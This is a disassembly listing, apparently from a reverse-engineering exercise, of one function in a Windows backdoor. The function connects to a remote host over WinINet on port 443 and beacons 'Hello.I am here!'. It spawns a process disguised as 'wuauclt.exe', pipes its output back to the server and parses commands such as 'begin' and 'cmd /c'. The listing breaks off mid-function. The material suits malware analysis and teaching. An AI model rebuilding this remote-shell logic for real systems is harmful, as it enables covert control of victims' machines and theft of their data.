

                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             uint __stdcall FUN_004014f4(void)
                               assume FS_OFFSET = 0xffdff000
             uint              EAX:4          <RETURN>
             undefined4        Stack[-0x8]:4  local_8                                 XREF[15]:    00401513(W),
                                                                                                   004015d2(RW),
                                                                                                   004015d5(R),
                                                                                                   0040192a(W),
                                                                                                   0040192e(*),
                                                                                                   0040195b(R),
                                                                                                   00401970(R),
                                                                                                   00401975(W),
                                                                                                   00401978(R),
                                                                                                   004019e2(W),
                                                                                                   004019e6(*),
                                                                                                   00401a13(R),
                                                                                                   00401a34(R),
                                                                                                   00401a39(W),
                                                                                                   00401a3c(R)
             undefined4        Stack[-0xc]:4  local_c                                 XREF[13]:    00401559(W),
                                                                                                   00401567(R),
                                                                                                   00401584(R),
                                                                                                   00401590(R),
                                                                                                   004015ba(R),
                                                                                                   00401757(R),
                                                                                                   00401784(R),
                                                                                                   00401984(R),
                                                                                                   00401a48(R),
                                                                                                   00401b1a(R),
                                                                                                   00401b58(R),
                                                                                                   00401b85(R),
                                                                                                   00401baa(R)
             undefined4        Stack[-0x10]:4 local_10                                XREF[7]:     00401702(*),
                                                                                                   0040171b(R),
                                                                                                   00401720(*),
                                                                                                   0040172b(R),
                                                                                                   00401a7b(R),
                                                                                                   00401ade(*),
                                                                                                   00401aed(W)
             undefined4        Stack[-0x14]:4 local_14                                XREF[6]:     00401504(W),
                                                                                                   0040151c(R),
                                                                                                   0040176b(R),
                                                                                                   00401b44(W),
                                                                                                   00401b47(*),
                                                                                                   00401b52(*)
             undefined4        Stack[-0x18]:4 local_18                                XREF[5]:     004015f7(*),
                                                                                                   00401712(R),
                                                                                                   0040172f(R),
                                                                                                   00401af6(R),
                                                                                                   00401b61(R)
             undefined4        Stack[-0x1c]:4 local_1c                                XREF[5]:     0040160c(*),
                                                                                                   00401a96(R),
                                                                                                   00401aea(R),
                                                                                                   00401b0b(R),
                                                                                                   00401b76(R)
             undefined1        Stack[-0x1f]:1 local_1f                                XREF[1]:     00401579(RW)
             undefined1        Stack[-0x20]:1 local_20                                XREF[2]:     00401561(*),
                                                                                                   0040157d(*)
             undefined4        Stack[-0x24]:4 local_24                                XREF[4]:     0040154e(W),
                                                                                                   00401b25(R),
                                                                                                   00401b90(R),
                                                                                                   00401ba5(R)
             undefined4        Stack[-0x28]:4 local_28                                XREF[4]:     00401610(*),
                                                                                                   00401625(R),
                                                                                                   00401b06(R),
                                                                                                   00401b71(R)
             undefined4        Stack[-0x2c]:4 local_2c                                XREF[4]:     004015ec(*),
                                                                                                   00401631(R),
                                                                                                   00401b01(R),
                                                                                                   00401b6c(R)
             undefined4        Stack[-0x30]:4 local_30                                XREF[4]:     0040152e(W),
                                                                                                   00401b2a(R),
                                                                                                   00401b95(R),
                                                                                                   00401b9a(R)
             undefined4        Stack[-0x34]:4 local_34                                XREF[3]:     00401768(*),
                                                                                                   00401a87(*),
                                                                                                   00401a92(R)
             undefined4        Stack[-0x38]:4 local_38                                XREF[2]:     004016fd(*),
                                                                                                   00401a7e(R)
             undefined4        Stack[-0x3c]:4 local_3c                                XREF[2]:     00401589(*),
                                                                                                   00401593(W)
             undefined4        Stack[-0x40]:4 local_40                                XREF[2]:     0040155d(*),
                                                                                                   0040156a(W)
             undefined4        Stack[-0x44]:4 local_44                                XREF[1]:     004015fe(W)
             undefined4        Stack[-0x48]:4 local_48                                XREF[1]:     004015fb(W)
             undefined4        Stack[-0x4c]:4 local_4c                                XREF[3]:     004015e1(*),
                                                                                                   004015ef(W),
                                                                                                   00401607(*)
             undefined1        Stack[-0x60]:1 local_60                                XREF[3]:     004015a1(*),
                                                                                                   004015a8(*),
                                                                                                   004015b4(*)
             undefined4        Stack[-0x6c]:4 local_6c                                XREF[2]:     00401b10(R),
                                                                                                   00401b7b(R)
             undefined4        Stack[-0x70]:4 local_70                                XREF[3]:     00401640(*),
                                                                                                   00401b15(R),
                                                                                                   00401b80(R)
             undefined4        Stack[-0x7c]:4 local_7c                                XREF[1]:     004018e0(R)
             undefined4        Stack[-0x80]:4 local_80                                XREF[2]:     004018b1(*),
                                                                                                   004018eb(R)
             undefined1        Stack[-0x8c]:1 local_8c                                XREF[2]:     00401648(*),
                                                                                                   00401668(*)
             undefined4        Stack[-0x90]:4 local_90                                XREF[1]:     00401634(W)
             undefined4        Stack[-0x94]:4 local_94                                XREF[1]:     0040163a(W)
             undefined4        Stack[-0x98]:4 local_98                                XREF[1]:     0040162b(W)
             undefined2        Stack[-0xa0]:2 local_a0                                XREF[1]:     00401671(W)
             undefined4        Stack[-0xa4]:4 local_a4                                XREF[1]:     00401655(W)
             undefined1        Stack[-0xd0]:1 local_d0                                XREF[2]:     00401618(*),
                                                                                                   0040164f(*)
             undefined2        Stack[-0xe4]:2 local_e4                                XREF[1]:     00401868(W)
             undefined4        Stack[-0xe8]:4 local_e8                                XREF[1]:     0040185a(W)
             undefined1        Stack[-0x114   local_114                               XREF[2]:     00401821(*),
                                                                                                   004018b6(*)
             undefined1        Stack[-0x193   local_193                               XREF[1]:     00401879(*)
             undefined1        Stack[-0x194   local_194                               XREF[4]:     0040187f(W),
                                                                                                   0040188d(*),
                                                                                                   0040189f(*),
                                                                                                   004018bd(*)
             undefined1        Stack[-0x293   local_293                               XREF[1]:     004019ca(*)
             undefined1        Stack[-0x294   local_294                               XREF[5]:     004019d1(W),
                                                                                                   004019dc(*),
                                                                                                   004019ff(*),
                                                                                                   00401a1c(R),
                                                                                                   00401a3f(*)
             undefined1        Stack[-0x393   local_393                               XREF[1]:     00401912(*)
             undefined1        Stack[-0x394   local_394                               XREF[5]:     00401919(W),
                                                                                                   00401924(*),
                                                                                                   00401947(*),
                                                                                                   00401960(R),
                                                                                                   0040197b(*)
             undefined1        Stack[-0x793   local_793                               XREF[1]:     004016a3(*)
             undefined1        Stack[-0x794   local_794                               XREF[10]:    00401694(W),
                                                                                                   004016d0(*),
                                                                                                   00401706(*),
                                                                                                   00401725(*),
                                                                                                   00401740(*),
                                                                                                   0040174e(*),
                                                                                                   004017b6(*),
                                                                                                   00401996(*),
                                                                                                   00401a55(*),
                                                                                                   00401a67(*)
             undefined1        Stack[-0xb8e   local_b8e                               XREF[1]:     0040180c(*)
             undefined1        Stack[-0xb93   local_b93                               XREF[1]:     004016b8(*)
             undefined1        Stack[-0xb94   local_b94                               XREF[13]:    004016a9(W),
                                                                                                   004016ed(*),
                                                                                                   0040176f(*),
                                                                                                   0040179c(*),
                                                                                                   004017cf(*),
                                                                                                   004017fc(*),
                                                                                                   004018f7(*),
                                                                                                   00401932(*),
                                                                                                   004019af(*),
                                                                                                   004019ea(*),
                                                                                                   00401a8c(*),
                                                                                                   00401aab(*),
                                                                                                   00401ac2(*)
             undefined1        Stack[-0xd8c   local_d8c                               XREF[1]:     0040184c(*)
             undefined4        Stack[-0xd90   local_d90                               XREF[1]:     00401843(W)
             undefined4        Stack[-0xd94   local_d94                               XREF[3]:     00401836(W),
                                                                                                   00401861(*),
                                                                                                   004018c9(*)
             undefined1        Stack[-0xf93   local_f93                               XREF[1]:     004017ea(*)
             undefined1        Stack[-0xf94   local_f94                               XREF[3]:     004017f1(W),
                                                                                                   00401813(*),
                                                                                                   00401854(*)
             undefined1        Stack[-0x139   local_1393                              XREF[1]:     00401688(*)
             undefined1        Stack[-0x139   local_1394                              XREF[3]:     0040168e(W),
                                                                                                   004016df(*),
                                                                                                   0040177b(*)
                             FUN_004014f4                                    XREF[1]:     FUN_00401000:0040101f(c)
        004014f4 55              PUSH       EBP
        004014f5 8b ec           MOV        EBP,ESP
        004014f7 b8 90 13        MOV        EAX,0x1390
                 00 00
        004014fc e8 0f 07        CALL       FUN_00401c10                                     undefined FUN_00401c10(void)
                 00 00
        00401501 53              PUSH       EBX
        00401502 56              PUSH       ESI
        00401503 57              PUSH       EDI
        00401504 89 4d f0        MOV        dword ptr [EBP + local_14],ECX
        00401507 33 db           XOR        EBX,EBX
                             LAB_00401509                                    XREF[1]:     00401b3a(j)
        00401509 53              PUSH       EBX
        0040150a 53              PUSH       EBX
        0040150b 53              PUSH       EBX
        0040150c be 24 32        MOV        ESI,DAT_00403224
                 40 00
        00401511 53              PUSH       EBX
        00401512 56              PUSH       ESI=>DAT_00403224
        00401513 89 5d fc        MOV        dword ptr [EBP + local_8],EBX
        00401516 ff 15 b0        CALL       dword ptr [->WININET.DLL::InternetOpenA]         = 0000239c
                 20 40 00
        0040151c 8b 4d f0        MOV        ECX,dword ptr [EBP + local_14]
        0040151f 53              PUSH       EBX
        00401520 68 00 00        PUSH       0x80800000
                 80 80
        00401525 6a 03           PUSH       0x3
        00401527 56              PUSH       ESI=>DAT_00403224
        00401528 56              PUSH       ESI=>DAT_00403224
        00401529 68 bb 01        PUSH       0x1bb
                 00 00
        0040152e 89 45 d4        MOV        dword ptr [EBP + local_30],EAX
        00401531 ff 31           PUSH       dword ptr [ECX]
        00401533 50              PUSH       EAX
        00401534 ff 15 b4        CALL       dword ptr [->WININET.DLL::InternetConnectA]      = 00002388
                 20 40 00
        0040153a 53              PUSH       EBX
        0040153b 68 00 30        PUSH       0x80c03000
                 c0 80
        00401540 53              PUSH       EBX
        00401541 53              PUSH       EBX
        00401542 68 08 32        PUSH       s_HTTP/1.0_00403208                              = "HTTP/1.0"
                 40 00
        00401547 56              PUSH       ESI=>DAT_00403224
        00401548 68 00 32        PUSH       s_CONNECT_00403200                               = "CONNECT"
                 40 00
        0040154d 50              PUSH       EAX
        0040154e 89 45 e0        MOV        dword ptr [EBP + local_24],EAX
        00401551 ff 15 b8        CALL       dword ptr [->WININET.DLL::HttpOpenRequestA]      = 00002374
                 20 40 00
        00401557 6a 04           PUSH       0x4
        00401559 89 45 f8        MOV        dword ptr [EBP + local_c],EAX
        0040155c 5f              POP        EDI
        0040155d 8d 45 c4        LEA        EAX=>local_40,[EBP + -0x3c]
        00401560 50              PUSH       EAX
        00401561 8d 45 e4        LEA        EAX=>local_20,[EBP + -0x1c]
        00401564 50              PUSH       EAX
        00401565 6a 1f           PUSH       0x1f
        00401567 ff 75 f8        PUSH       dword ptr [EBP + local_c]
        0040156a 89 7d c4        MOV        dword ptr [EBP + local_40],EDI
        0040156d ff 15 bc        CALL       dword ptr [->WININET.DLL::InternetQueryOptionA]  = 0000235c
                 20 40 00
        00401573 8b 35 c0        MOV        ESI,dword ptr [->WININET.DLL::InternetSetOptio   = 00002346
                 20 40 00
        00401579 80 4d e5 01     OR         byte ptr [EBP + local_1f],0x1
        0040157d 8d 45 e4        LEA        EAX=>local_20,[EBP + -0x1c]
        00401580 57              PUSH       EDI
        00401581 50              PUSH       EAX
        00401582 6a 1f           PUSH       0x1f
        00401584 ff 75 f8        PUSH       dword ptr [EBP + local_c]
        00401587 ff d6           CALL       ESI=>WININET.DLL::InternetSetOptionA
        00401589 8d 45 c8        LEA        EAX=>local_3c,[EBP + -0x38]
        0040158c 57              PUSH       EDI
        0040158d 50              PUSH       EAX
        0040158e 6a 06           PUSH       0x6
        00401590 ff 75 f8        PUSH       dword ptr [EBP + local_c]
        00401593 c7 45 c8        MOV        dword ptr [EBP + local_3c],0x1b7740
                 40 77 1b 00
        0040159a ff d6           CALL       ESI=>WININET.DLL::InternetSetOptionA
                             LAB_0040159c                                    XREF[1]:     004015df(j)
        0040159c be ec 31        MOV        ESI,s_Hello.I_am_here!_004031ec                  = "Hello.I am here!"
                 40 00
        004015a1 8d 7d a4        LEA        EDI=>local_60,[EBP + -0x5c]
        004015a4 a5              MOVSD      ES:EDI,ESI=>s_Hello.I_am_here!_004031ec          = "Hello.I am here!"
        004015a5 a5              MOVSD      ES:EDI,ESI=>s_o.I_am_here!_004031ec+4            = "o.I am here!"
        004015a6 a5              MOVSD      ES:EDI,ESI=>s_am_here!_004031ec+8                = "am here!"
        004015a7 a5              MOVSD      ES:EDI,ESI=>s_ere!_004031ec+12                   = "ere!"
        004015a8 8d 45 a4        LEA        EAX=>local_60,[EBP + -0x5c]
        004015ab 50              PUSH       EAX                                              char * _Str for strlen
        004015ac a4              MOVSB      ES:EDI,ESI=>s__004031ec+16                       = ""
        004015ad e8 2e 06        CALL       MSVCRT.DLL::strlen                               size_t strlen(char * _Str)
                 00 00
        004015b2 59              POP        ECX
        004015b3 50              PUSH       EAX
        004015b4 8d 45 a4        LEA        EAX=>local_60,[EBP + -0x5c]
        004015b7 50              PUSH       EAX
        004015b8 53              PUSH       EBX
        004015b9 53              PUSH       EBX
        004015ba ff 75 f8        PUSH       dword ptr [EBP + local_c]
        004015bd ff 15 c8        CALL       dword ptr [->WININET.DLL::HttpSendRequestA]      = 0000231c
                 20 40 00
        004015c3 85 c0           TEST       EAX,EAX
        004015c5 75 1a           JNZ        LAB_004015e1
        004015c7 68 88 13        PUSH       0x1388                                           DWORD dwMilliseconds for Sleep
                 00 00
        004015cc ff 15 00        CALL       dword ptr [->KERNEL32.DLL::Sleep]                = 00002248
                 20 40 00
        004015d2 ff 45 fc        INC        dword ptr [EBP + local_8]
        004015d5 83 7d fc 06     CMP        dword ptr [EBP + local_8],0x6
        004015d9 0f 8d bb        JGE        LAB_00401b9a
                 05 00 00
        004015df eb bb           JMP        LAB_0040159c
                             LAB_004015e1                                    XREF[1]:     004015c5(j)
        004015e1 8d 45 b8        LEA        EAX=>local_4c,[EBP + -0x48]
        004015e4 8b 35 1c        MOV        ESI,dword ptr [->KERNEL32.DLL::CreatePipe]       = 000022b0
                 20 40 00
        004015ea 53              PUSH       EBX                                              DWORD nSize for CreatePipe
        004015eb 50              PUSH       EAX                                              LPSECURITY_ATTRIBUTES lpPipeAttr
        004015ec 8d 45 d8        LEA        EAX=>local_2c,[EBP + -0x28]
        004015ef c7 45 b8        MOV        dword ptr [EBP + local_4c],0xc
                 0c 00 00 00
        004015f6 50              PUSH       EAX                                              PHANDLE hWritePipe for CreatePipe
        004015f7 8d 45 ec        LEA        EAX=>local_18,[EBP + -0x14]
        004015fa 50              PUSH       EAX                                              PHANDLE hReadPipe for CreatePipe
        004015fb 89 5d bc        MOV        dword ptr [EBP + local_48],EBX
        004015fe c7 45 c0        MOV        dword ptr [EBP + local_44],0x1
                 01 00 00 00
        00401605 ff d6           CALL       ESI=>KERNEL32.DLL::CreatePipe
        00401607 8d 45 b8        LEA        EAX=>local_4c,[EBP + -0x48]
        0040160a 53              PUSH       EBX                                              DWORD nSize for CreatePipe
        0040160b 50              PUSH       EAX                                              LPSECURITY_ATTRIBUTES lpPipeAttr
        0040160c 8d 45 e8        LEA        EAX=>local_1c,[EBP + -0x18]
        0040160f 50              PUSH       EAX                                              PHANDLE hWritePipe for CreatePipe
        00401610 8d 45 dc        LEA        EAX=>local_28,[EBP + -0x24]
        00401613 50              PUSH       EAX                                              PHANDLE hReadPipe for CreatePipe
        00401614 ff d6           CALL       ESI=>KERNEL32.DLL::CreatePipe
        00401616 6a 44           PUSH       0x44                                             size_t _Size for memset
        00401618 8d 85 34        LEA        EAX=>local_d0,[EBP + 0xffffff34]
                 ff ff ff
        0040161e 53              PUSH       EBX                                              int _Val for memset
        0040161f 50              PUSH       EAX                                              void * _Dst for memset
        00401620 e8 e5 05        CALL       MSVCRT.DLL::memset                               void * memset(void * _Dst, int _
                 00 00
        00401625 8b 45 dc        MOV        EAX,dword ptr [EBP + local_28]
        00401628 83 c4 0c        ADD        ESP,0xc
        0040162b 89 85 6c        MOV        dword ptr [EBP + local_98],EAX
                 ff ff ff
        00401631 8b 45 d8        MOV        EAX,dword ptr [EBP + local_2c]
        00401634 89 85 74        MOV        dword ptr [EBP + local_90],EAX
                 ff ff ff
        0040163a 89 85 70        MOV        dword ptr [EBP + local_94],EAX
                 ff ff ff
        00401640 8d 45 94        LEA        EAX=>local_70,[EBP + -0x6c]
        00401643 be e0 31        MOV        ESI,s_wuauclt.exe_004031e0                       = "wuauclt.exe"
                 40 00
        00401648 8d bd 78        LEA        EDI=>local_8c,[EBP + 0xffffff78]
                 ff ff ff
        0040164e 50              PUSH       EAX                                              LPPROCESS_INFORMATION lpProcessI
        0040164f 8d 85 34        LEA        EAX=>local_d0,[EBP + 0xffffff34]
                 ff ff ff
        00401655 c7 85 60        MOV        dword ptr [EBP + local_a4],0x101
                 ff ff ff
                 01 01 00 00
        0040165f a5              MOVSD      ES:EDI,ESI=>s_wuauclt.exe_004031e0               = "wuauclt.exe"
        00401660 50              PUSH       EAX                                              LPSTARTUPINFOA lpStartupInfo for
        00401661 53              PUSH       EBX                                              LPCSTR lpCurrentDirectory for Cr
        00401662 53              PUSH       EBX                                              LPVOID lpEnvironment for CreateP
        00401663 53              PUSH       EBX                                              DWORD dwCreationFlags for Create
        00401664 a5              MOVSD      ES:EDI,ESI=>s_clt.exe_004031e0+4                 = "clt.exe"
        00401665 6a 01           PUSH       0x1                                              BOOL bInheritHandles for CreateP
        00401667 53              PUSH       EBX                                              LPSECURITY_ATTRIBUTES lpThreadAt
        00401668 8d 85 78        LEA        EAX=>local_8c,[EBP + 0xffffff78]
                 ff ff ff
        0040166e 53              PUSH       EBX                                              LPSECURITY_ATTRIBUTES lpProcessA
        0040166f 50              PUSH       EAX                                              LPSTR lpCommandLine for CreatePr
        00401670 53              PUSH       EBX                                              LPCSTR lpApplicationName for Cre
        00401671 66 89 9d        MOV        word ptr [EBP + local_a0],BX
                 64 ff ff ff
        00401678 a5              MOVSD      ES:EDI,ESI=>s_exe_004031e0+8                     = "exe"
        00401679 ff 15 18        CALL       dword ptr [->KERNEL32.DLL::CreateProcessA]       = 0000229e
                 20 40 00
        0040167f ba ff 00        MOV        EDX,0xff
                 00 00
        00401684 33 c0           XOR        EAX,EAX
        00401686 8b ca           MOV        ECX,EDX
        00401688 8d bd 71        LEA        EDI=>local_1393,[EBP + 0xffffec71]
                 ec ff ff
        0040168e 88 9d 70        MOV        byte ptr [EBP + local_1394],BL
                 ec ff ff
        00401694 88 9d 70        MOV        byte ptr [EBP + local_794],BL
                 f8 ff ff
        0040169a f3 ab           STOSD.REP  ES:EDI
        0040169c 66 ab           STOSW      ES:EDI
        0040169e aa              STOSB      ES:EDI
        0040169f 8b ca           MOV        ECX,EDX
        004016a1 33 c0           XOR        EAX,EAX
        004016a3 8d bd 71        LEA        EDI=>local_793,[EBP + 0xfffff871]
                 f8 ff ff
        004016a9 88 9d 70        MOV        byte ptr [EBP + local_b94],BL
                 f4 ff ff
        004016af f3 ab           STOSD.REP  ES:EDI
        004016b1 66 ab           STOSW      ES:EDI
        004016b3 aa              STOSB      ES:EDI
        004016b4 8b ca           MOV        ECX,EDX
        004016b6 33 c0           XOR        EAX,EAX
        004016b8 8d bd 71        LEA        EDI=>local_b93,[EBP + 0xfffff471]
                 f4 ff ff
        004016be f3 ab           STOSD.REP  ES:EDI
        004016c0 66 ab           STOSW      ES:EDI
        004016c2 aa              STOSB      ES:EDI
                             LAB_004016c3                                    XREF[3]:     0040171e(j), 00401a81(j),
                                                                                          00401ad7(j)
        004016c3 6a 64           PUSH       0x64                                             DWORD dwMilliseconds for Sleep
        004016c5 ff 15 00        CALL       dword ptr [->KERNEL32.DLL::Sleep]                = 00002248
                 20 40 00
        004016cb bf 00 04        MOV        EDI,0x400
                 00 00
        004016d0 8d 85 70        LEA        EAX=>local_794,[EBP + 0xfffff870]
                 f8 ff ff
        004016d6 57              PUSH       EDI                                              size_t _Size for memset
        004016d7 53              PUSH       EBX                                              int _Val for memset
        004016d8 50              PUSH       EAX                                              void * _Dst for memset
        004016d9 e8 2c 05        CALL       MSVCRT.DLL::memset                               void * memset(void * _Dst, int _
                 00 00
        004016de 57              PUSH       EDI                                              size_t _Size for memset
        004016df 8d 85 70        LEA        EAX=>local_1394,[EBP + 0xffffec70]
                 ec ff ff
        004016e5 53              PUSH       EBX                                              int _Val for memset
        004016e6 50              PUSH       EAX                                              void * _Dst for memset
        004016e7 e8 1e 05        CALL       MSVCRT.DLL::memset                               void * memset(void * _Dst, int _
                 00 00
        004016ec 57              PUSH       EDI                                              size_t _Size for memset
        004016ed 8d 85 70        LEA        EAX=>local_b94,[EBP + 0xfffff470]
                 f4 ff ff
        004016f3 53              PUSH       EBX                                              int _Val for memset
        004016f4 50              PUSH       EAX                                              void * _Dst for memset
        004016f5 e8 10 05        CALL       MSVCRT.DLL::memset                               void * memset(void * _Dst, int _
                 00 00
        004016fa 83 c4 24        ADD        ESP,0x24
        004016fd 8d 45 cc        LEA        EAX=>local_38,[EBP + -0x34]
        00401700 53              PUSH       EBX                                              LPDWORD lpBytesLeftThisMessage f
        00401701 50              PUSH       EAX                                              LPDWORD lpTotalBytesAvail for Pe
        00401702 8d 45 f4        LEA        EAX=>local_10,[EBP + -0xc]
        00401705 50              PUSH       EAX                                              LPDWORD lpBytesRead for PeekName
        00401706 8d 85 70        LEA        EAX=>local_794,[EBP + 0xfffff870]
                 f8 ff ff
        0040170c 68 ff 03        PUSH       0x3ff                                            DWORD nBufferSize for PeekNamedP
                 00 00
        00401711 50              PUSH       EAX                                              LPVOID lpBuffer for PeekNamedPipe
        00401712 ff 75 ec        PUSH       dword ptr [EBP + local_18]                       HANDLE hNamedPipe for PeekNamedP
        00401715 ff 15 14        CALL       dword ptr [->KERNEL32.DLL::PeekNamedPipe]        = 0000228e
                 20 40 00
        0040171b 39 5d f4        CMP        dword ptr [EBP + local_10],EBX
        0040171e 74 a3           JZ         LAB_004016c3
        00401720 8d 45 f4        LEA        EAX=>local_10,[EBP + -0xc]
        00401723 53              PUSH       EBX                                              LPOVERLAPPED lpOverlapped for Re
        00401724 50              PUSH       EAX                                              LPDWORD lpNumberOfBytesRead for
        00401725 8d 85 70        LEA        EAX=>local_794,[EBP + 0xfffff870]
                 f8 ff ff
        0040172b ff 75 f4        PUSH       dword ptr [EBP + local_10]                       DWORD nNumberOfBytesToRead for R
        0040172e 50              PUSH       EAX                                              LPVOID lpBuffer for ReadFile
        0040172f ff 75 ec        PUSH       dword ptr [EBP + local_18]                       HANDLE hFile for ReadFile
        00401732 ff 15 10        CALL       dword ptr [->KERNEL32.DLL::ReadFile]             = 00002282
                 20 40 00
        00401738 85 c0           TEST       EAX,EAX
        0040173a 0f 84 9c        JZ         LAB_00401adc
                 03 00 00
                             LAB_00401740                                    XREF[1]:     00401a76(j)
        00401740 8d 85 70        LEA        EAX=>local_794,[EBP + 0xfffff870]
                 f8 ff ff
        00401746 50              PUSH       EAX                                              char * _Str for strlen
        00401747 e8 94 04        CALL       MSVCRT.DLL::strlen                               size_t strlen(char * _Str)
                 00 00
        0040174c 59              POP        ECX
        0040174d 50              PUSH       EAX
        0040174e 8d 85 70        LEA        EAX=>local_794,[EBP + 0xfffff870]
                 f8 ff ff
        00401754 50              PUSH       EAX
        00401755 53              PUSH       EBX
        00401756 53              PUSH       EBX
        00401757 ff 75 f8        PUSH       dword ptr [EBP + local_c]
        0040175a ff 15 c8        CALL       dword ptr [->WININET.DLL::HttpSendRequestA]      = 0000231c
                 20 40 00
        00401760 85 c0           TEST       EAX,EAX
        00401762 0f 84 74        JZ         LAB_00401adc
                 03 00 00
        00401768 8d 45 d0        LEA        EAX=>local_34,[EBP + -0x30]
        0040176b 8b 75 f0        MOV        ESI,dword ptr [EBP + local_14]
        0040176e 50              PUSH       EAX
        0040176f 8d 85 70        LEA        EAX=>local_b94,[EBP + 0xfffff470]
                 f4 ff ff
        00401775 68 ff 03        PUSH       0x3ff
                 00 00
        0040177a 50              PUSH       EAX
        0040177b 8d 85 70        LEA        EAX=>local_1394,[EBP + 0xffffec70]
                 ec ff ff
        00401781 8b ce           MOV        ECX,ESI
        00401783 50              PUSH       EAX
        00401784 ff 75 f8        PUSH       dword ptr [EBP + local_c]
        00401787 e8 f0 f8        CALL       FUN_0040107c                                     undefined4 FUN_0040107c(undefine
                 ff ff
        0040178c 84 c0           TEST       AL,AL
        0040178e 0f 84 48        JZ         LAB_00401adc
                 03 00 00
        00401794 8b 3d a8        MOV        EDI,dword ptr [->MSVCRT.DLL::_strnicmp]          = 00002558
                 20 40 00
        0040179a 6a 04           PUSH       0x4                                              size_t _MaxCount for _strnicmp
        0040179c 8d 85 70        LEA        EAX=>local_b94,[EBP + 0xfffff470]
                 f4 ff ff
        004017a2 68 d8 31        PUSH       _Str2_004031d8                                   char * _Str2 for _strnicmp
                 40 00
        004017a7 50              PUSH       EAX                                              char * _Str1 for _strnicmp
        004017a8 ff d7           CALL       EDI=>MSVCRT.DLL::_strnicmp
        004017aa 83 c4 0c        ADD        ESP,0xc
        004017ad 85 c0           TEST       EAX,EAX
        004017af 75 1c           JNZ        LAB_004017cd
        004017b1 68 00 04        PUSH       0x400                                            size_t _Size for memset
                 00 00
        004017b6 8d 85 70        LEA        EAX=>local_794,[EBP + 0xfffff870]
                 f8 ff ff
        004017bc 53              PUSH       EBX                                              int _Val for memset
        004017bd 50              PUSH       EAX                                              void * _Dst for memset
        004017be e8 47 04        CALL       MSVCRT.DLL::memset                               void * memset(void * _Dst, int _
                 00 00
        004017c3 68 bc 31        PUSH       s_Type_command_disable.Go_on!_004031bc           = "Type command disable.Go on!"
                 40 00
        004017c8 e9 9a 02        JMP        LAB_00401a67
                 00 00
                             LAB_004017cd                                    XREF[1]:     004017af(j)
        004017cd 6a 05           PUSH       0x5                                              size_t _MaxCount for _strnicmp
        004017cf 8d 85 70        LEA        EAX=>local_b94,[EBP + 0xfffff470]
                 f4 ff ff
        004017d5 68 b4 31        PUSH       s_begin_004031b4                                 char * _Str2 for _strnicmp
                 40 00
        004017da 50              PUSH       EAX                                              char * _Str1 for _strnicmp
        004017db ff d7           CALL       EDI=>MSVCRT.DLL::_strnicmp
        004017dd 83 c4 0c        ADD        ESP,0xc
        004017e0 85 c0           TEST       EAX,EAX
        004017e2 0f 85 0d        JNZ        LAB_004018f5
                 01 00 00
        004017e8 6a 7f           PUSH       0x7f
        004017ea 8d bd 71        LEA        EDI=>local_f93,[EBP + 0xfffff071]
                 f0 ff ff
        004017f0 59              POP        ECX
        004017f1 88 9d 70        MOV        byte ptr [EBP + local_f94],BL
                 f0 ff ff
        004017f7 f3 ab           STOSD.REP  ES:EDI
        004017f9 66 ab           STOSW      ES:EDI
        004017fb aa              STOSB      ES:EDI
        004017fc 8d 85 70        LEA        EAX=>local_b94,[EBP + 0xfffff470]
                 f4 ff ff
        00401802 50              PUSH       EAX                                              char * _Str for strlen
        00401803 e8 d8 03        CALL       MSVCRT.DLL::strlen                               size_t strlen(char * _Str)
                 00 00
        00401808 83 e8 06        SUB        EAX,0x6
        0040180b 50              PUSH       EAX                                              size_t _Size for memcpy
        0040180c 8d 85 76        LEA        EAX=>local_b8e,[EBP + 0xfffff476]
                 f4 ff ff
        00401812 50              PUSH       EAX                                              void * _Src for memcpy
        00401813 8d 85 70        LEA        EAX=>local_f94,[EBP + 0xfffff070]
                 f0 ff ff
        00401819 50              PUSH       EAX                                              void * _Dst for memcpy
        0040181a e8 c7 03        CALL       MSVCRT.DLL::memcpy                               void * memcpy(void * _Dst, void
                 00 00
        0040181f 6a 44           PUSH       0x44                                             size_t _Size for memset
        00401821 8d 85 f0        LEA        EAX=>local_114,[EBP + 0xfffffef0]
                 fe ff ff
        00401827 53              PUSH       EBX                                              int _Val for memset
        00401828 50              PUSH       EAX                                              void * _Dst for memset
        00401829 e8 dc 03        CALL       MSVCRT.DLL::memset                               void * memset(void * _Dst, int _
                 00 00
        0040182e a1 ac 31        MOV        EAX,[DAT_004031ac]                               = 20646D63h
                 40 00
        00401833 6a 01           PUSH       0x1
        00401835 5e              POP        ESI
        00401836 89 85 70        MOV        dword ptr [EBP + local_d94],EAX
                 f2 ff ff
        0040183c a1 b0 31        MOV        EAX,[DAT_004031b0]                               = 0020632Fh
                 40 00
        00401841 6a 7e           PUSH       0x7e
        00401843 89 85 74        MOV        dword ptr [EBP + local_d90],EAX
                 f2 ff ff
        00401849 59              POP        ECX
        0040184a 33 c0           XOR        EAX,EAX
        0040184c 8d bd 78        LEA        EDI=>local_d8c,[EBP + 0xfffff278]
                 f2 ff ff
